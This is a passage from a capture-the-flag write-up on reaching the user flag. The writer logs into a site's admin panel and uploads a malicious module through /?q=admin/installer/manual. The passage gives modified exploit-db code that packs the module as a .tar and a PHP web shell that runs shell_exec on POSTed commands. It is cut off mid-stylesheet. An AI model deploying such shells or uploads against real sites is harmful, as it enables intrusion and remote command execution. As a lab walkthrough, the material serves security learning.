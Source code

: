 ![Image 4](4.png)

Now we can try this email and the password found before to login to the admin panel in the website
### User Flag

Once logged in, we see can upload a malicious module with the PoC found in exploit-db, the route is /?q=admin/installer/manual but the website only allows .tar, .tar.gz, etc.. file extensions so we'll need to modify the script a little bit, here's the parts i changed:
 ```python
 def create_zip(info_path, php_path):
    tar_filename = "shell.tar"
    with tarfile.open(tar_filename, 'w') as tarf:
        tarf.add(info_path, arcname='shell/shell.info')
        tarf.add(php_path, arcname='shell/shell.php')
    return tar_filename
```
i also changed the webshell payload here: 
```python
     shell_content = """
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            padding: 10px;
            border-radius: 5px;
            background-color: #efefef;
        }

        label {
            display: block;
        }

```